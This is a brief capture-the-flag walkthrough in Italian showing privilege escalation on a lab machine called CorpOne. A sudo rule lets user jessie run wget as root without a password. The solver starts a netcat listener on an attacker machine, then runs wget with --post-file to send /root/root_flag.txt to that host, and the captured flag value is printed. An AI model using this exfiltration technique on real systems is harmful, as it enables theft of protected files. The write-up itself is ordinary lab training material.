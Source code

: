 1) Faccio sudo  -l:
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

2)Macchina Attaccante: **nc -lvnp 4444**

3) Macchina vulneerabile: **sudo /usr/bin/wget –post-file=/root/root_flag.txt** [**http://[TUNNEL_IP]:4444**](http://[tunnel_ip]:4444/)

4) rootflag: b1b968b37519ad1daa6408188649263
